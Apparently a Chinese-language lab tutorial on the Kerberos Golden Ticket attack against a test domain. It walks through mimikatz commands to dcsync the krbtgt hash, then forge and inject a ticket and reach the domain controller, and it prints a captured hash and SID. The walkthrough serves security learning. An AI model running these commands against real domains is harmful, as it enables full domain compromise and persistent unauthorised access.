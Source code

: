 <a name="xceg8"></a>
#### 1、导出 krbtgt 密码 hash
在域控操作
```
mimikatz.exe "lsadump::dcsync /domain:aufeng.com /user:krbtgt"
```

![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626243046278-077fcfe7-06e1-42fb-8e18-a77a2bc3a7bf.png#height=450&id=YS0U8&originHeight=600&originWidth=800&originalType=binary&ratio=1&rotation=0&showTitle=false&size=90883&status=done&style=none&title=&width=600)

<a name="rytEN"></a>
#### 2、获取域控的 SID
在域控操作<br />在导出 krbtgt 的 hash 的时候已经包含了域 SID，也可以用以下命令来查看域 SID
```
whoami /all
```
域控的sid要去掉后面的-500<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626243796382-29de9e62-7a8d-407c-93a4-116e819b2bcf.png#height=326&id=ujqB4&originHeight=435&originWidth=659&originalType=binary&ratio=1&rotation=0&showTitle=false&size=27495&status=done&style=none&title=&width=494)<br />根据以上已经获取黄金票据所需的信息 

**krbtgt hash : 587a198944ae8c18f8106e47a3030281**<br />**域控sid: S-1-5-21-328449661-375435731-1527784320**<br />**域控主机名 WIN-RQP1EWJL1WV**

<a name="Pj2T9"></a>
#### 3、在普通域用户生成票据并导入票据
票据生成
```
mimikatz.exe "kerberos::golden /user:WIN-RQP1EWJL1WV /domain:aufeng.com /sid:S-1-5-21-328449661-375435731-1527784320 /krbtgt:587a198944ae8c18f8106e47a3030281"
```
<a name="fgXdr"></a>
#### ![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626244422233-b17faf7b-d0d4-4de0-983f-6bd07b4cb201.png#height=664&id=ldb8a&originHeight=886&originWidth=1235&originalType=binary&ratio=1&rotation=0&showTitle=false&size=459591&status=done&style=none&title=&width=926)
导入krb的票据<br />mimikatz.exe "kerberos::ptt ticket.kirbi" exit<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626244678915-3e328072-3cab-4b64-8874-b91621a4d65b.png#height=665&id=v88nC&originHeight=886&originWidth=1282&originalType=binary&ratio=1&rotation=0&showTitle=false&size=377553&status=done&style=none&title=&width=962)<br />获得票据后可直接通过 dir 远程访问域控，可以直接使用 ipc 进行连接:<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626244746122-2b6d71da-a23b-4503-9555-60a0f0f17f68.png#height=665&id=H6hVq&originHeight=886&originWidth=1282&originalType=binary&ratio=1&rotation=0&showTitle=false&size=500394&status=done&style=none&title=&width=962)<br />当然也可以使用 psexec 去获得一个 cmdshell:

klist purge 清除票据<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1626245942156-e760c257-25a1-4e38-9fe3-62d576782652.png#height=330&id=k0vyO&originHeight=439&originWidth=822&originalType=binary&ratio=1&rotation=0&showTitle=false&size=38201&status=done&style=none&title=&width=617)
> 注:普通黄金票据不能跨域使用;TGT 有效时间为 20 分钟;。


<a name="asDBi"></a>
### 白银票据
